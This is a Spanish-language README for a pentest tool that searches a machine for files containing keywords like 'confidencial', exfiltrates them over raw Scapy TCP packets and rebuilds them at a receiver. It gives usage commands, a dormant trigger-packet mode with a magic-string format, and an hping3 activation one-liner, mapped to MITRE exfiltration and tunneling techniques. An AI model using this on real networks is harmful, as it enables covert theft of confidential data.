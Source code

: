 # Transferencia de Archivos a través de capa de transporte TCP

Este proyecto contiene dos scripts en Python (sender.py y receiver.py) para la transferencia de archivos a través de la red utilizando paquetes TCP. El objetivo principal de estos scripts es permitir la búsqueda de archivos que contengan ciertas palabras clave y enviarlos a través de la red a una máquina destino. El proceso de envío y recepción se maneja mediante paquetes TCP personalizados utilizando la librería Scapy.

## Mitre v17

- 🌐 Protocol Tunneling (T1572)
- 🔒 Exfiltration Over C2 Channel (T1041)
- 📡 Non-Application Layer Protocol (T1095)
- 🤖 Automated Collection (T1119)
- 🔍 File and Directory Discovery (T1083)
- 🕵 Obfuscated Files or Information (T1027)
- 🐍 Command and Scripting Interpreter: Python (T1059.006)

## Características
1-. **sender.py**: Permite buscar archivos en un directorio local que contengan ciertas palabras clave y enviarlos a una máquina destino a través de la red.

2-. **receiver.py**: Escucha en una interfaz de red para recibir los paquetes enviados por sender.py y reconstruir el archivo recibido.

## Requisitos
- Python 3.x
- Librerías necesarias:
  - scapy
  - PyPDF2
  - python-docx
  - xlrd
  - openpyxl
  - python-pptx
  - odfpy
    
Puedes instalar las librerías necesarias ejecutando:
```
pip install scapy PyPDF2 python-docx xlrd openpyxl python-pptx odfpy
```

## Uso sender.py
  El script sender.py tiene dos modos de operación:
  
  ### Modo searchAndSend
  Busca archivos en un directorio especificado por palabras clave y los envía a una máquina destino.
    
  #### Ejemplo de uso:
  ```
  python3 sender.py searchAndSend --rootPath <directorio_raiz> --keywords <palabra1,palabra2> --destinationIp <IP_destino> --tcpFlag <flag_tcp>
  ```

  #### Argumentos:
  - **--rootPath**: Ruta del directorio donde comenzar a buscar archivos.
  - **--keywords**: Palabras clave que se buscarán en los archivos. Separadas por comas.
  - **--destinationIp**: Dirección IP del receptor (máquina destino).
  - **--destinationPort**: Puerto de destino (por defecto 80).
  - **--sourceIp**: Dirección IP de origen (por defecto 10.1.0.10).
  - **--sourcePort**: Puerto de origen (por defecto 12345).
  - **--tcpFlag**: Flag del protocolo TCP. Puede ser uno de los siguientes: S, A, P, F, R, U, SA, FA, SF o random.

  #### Ejemplo:
  ```
  python3 sender.py searchAndSend --rootPath ./NAS --keywords confidencial --destinationIp 192.168.1.100 --tcpFlag random
  ```

  ### Modo waitForOrder
  Este modo espera recibir un comando de red para iniciar el envío de archivos. Una vez que el comando es recibido, sender.py buscará y enviará los archivos a la máquina destino.

  #### Ejemplo de uso:
  ```
  python3 sender.py waitForOrder
  ```
  Este comando pone al script en espera de recibir paquetes que contengan la información necesaria para realizar el envío de archivos. El paquete de activación debe comenzar por "1j2k3l4m" seguido de:
  
  - Valor del directorio raiz
  - Palabras clave
  - Dirección ip destino
  - Flag TCP

  Cada valor debe ir separado por "|"
  La cadena inicial "1j2k3l4m" sirve para identificar el paquete que activa el proceso. Se debe ajustar el parámetro -d con la longitud del string.

  #### Ejemplo
  ```
  1j2k3l4m./NAS|seguridad|192.168.1.11|S
  1j2k3l4m/home/user/Documents|planos|10.0.1.11|random
  1j2k3l4m/home/user/Documents|confidencial|198.51.100.12|F
  ```
  Puedes utilizar hping3 para realizar una prueba en la activación del proceso.
  ```
  echo -n "1j2k3l4m./NAS|seguridad|192.168.1.11|S" | sudo hping3 -S -p 80 -s 12345 -d 38 -E /dev/stdin 192.168.1.100
  ```

## Uso receiver.py
  El script receiver.py se utiliza para recibir los paquetes enviados por sender.py, reconstruir los archivos y guardarlos localmente. Solo se necesita ejecutar este script en la máquina que recibirá los archivos.

  #### Ejemplo de uso:
  ```
  python3 receiver.py
  ```
  El script comenzará a escuchar en la interfaz de red especificada (por defecto eth0) para recibir los paquetes y guardar los archivos en el directorio ./OUTPUT.
  
  ### Detalles de funcionamiento

  - **Envío de paquetes**: Los archivos se envían como fragmentos de paquetes TCP que se envían utilizando la librería Scapy. Cada fragmento incluye un identificador único ("magic") para asegurar que los paquetes sean correctamente reconocidos y procesados.

  - **Recepción de archivos**: El script receiver.py escucha los paquetes entrantes y va reconstruyendo el archivo a medida que recibe los fragmentos. Al finalizar la transferencia, el archivo es guardado en el directorio ./OUTPUT.

  #### Formatos de archivo soportados:
  - PDF
  - DOCX
  - TXT
  - XSL
  - XLSX
  - ODT

  Estos formatos son procesados para extraer su contenido y buscar las palabras clave.

## Seguridad
  - **ARP Spoofing**: Para evitar la resolución ARP (Address Resolution Protocol), la variable conf.arp_resolve está configurada a False en el script sender.py, lo que evita que se realicen consultas ARP durante el envío de paquetes.
  - **Dirección MAC estática**: La dirección MAC de destino está hardcodeada en el script como 00:11:22:33:44:55, lo cual podría ser necesario ajustarlo si se utiliza una red diferente.

## Responsabilidad
Esta herramienta está diseñada para realizar pruebas de penetración y auditorías de seguridad en sistemas de manera ética y legal. Su propósito principal es ayudar a los profesionales de la ciberseguridad a identificar vulnerabilidades y debilidades en sus propios sistemas o en los de organizaciones que hayan dado su consentimiento explícito. Solo úsala en redes o sistemas para los cuales tengas permiso explícito. El uso en sistemas en los que no tengas autorización es ilegal y puede tener consecuencias graves.

## Contribuciones
Si deseas contribuir a este proyecto, por favor, realiza un fork del repositorio, realiza tus cambios y abre un pull request con una descripción detallada de las modificaciones.
